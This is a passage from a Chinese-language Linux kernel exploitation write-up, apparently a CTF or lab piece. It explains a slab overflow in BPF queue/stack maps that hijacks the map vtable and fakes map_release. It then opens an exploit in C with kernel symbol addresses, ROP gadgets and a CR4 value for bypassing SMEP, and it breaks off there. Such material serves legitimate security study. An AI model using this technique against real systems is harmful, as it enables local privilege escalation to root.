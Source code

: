 可以看到其第一个成员就是虚表指针 ```ops``` ，换句话说，在我们kamlloc出的slab中的第一个位置就是指向当前map虚表的指针，如果我们能通过上方的slab堆溢出，劫持下方slab的虚表指针，再fake相应的vtable，就可以实现一套内核的执行流劫持。

经过我们测试

![image-20210226214919315](https://s3.ax1x.com/2021/02/27/69ihpd.png)

一开始对map的不完全分配的slab地址是 ```0xffff8880059fb300``` ，然后我们memcpy的时候是向 ```0xffff8880059fb3d0``` 拷贝，也就是map payload是从偏移0xd0放置的。差值为0x100-0xd0 = 0x30，**也就是只要我们拷贝大于0x30的数据，就可以实现溢出**，而我们每update一次，拷贝的大小是最初的 ```attr->value_size ``` 。

最终的攻击点我们选择在在fake vtable上伪造fake map_release函数指针，通过close对应的map id触发fake map_releas完成执行流劫持。

## exp编写

首先给出我自己写的exp

```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <linux/bpf.h>
#include <stdint.h>

#ifndef BPF_MAP_TYPE_QUEUE
#define BPF_MAP_TYPE_QUEUE 22
#endif 

#ifndef BPF_MAP_TYPE_STACK
#define BPF_MAP_TYPE_STACK 23
#endif 

#define N 14

//#define DEBUG

#define EVIL_CR4 0x6f0  

#define COMMIT_CREDS 0xffffffff810bd9c0
#define PREPARE_KERNEL_CRED 0xffffffff810bdc70
#define NATIVE_WRITE_CR4 0xffffffff81072820
#define POP_RAX_RET 0xffffffff81039ee1
#define POP_RDI_RET 0xffffffff810890a0
#define SWAPGS 0xffffffff810728c4
#define IRETQ 
#define SYSRET 0xffffffff81c00163
#define IRETQ 0xFFFFFFFF8103713B
#define XCHG_EAX_ESP 0xffffffff810534d0
#define EVIL_RSP 0x810534d0

typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
```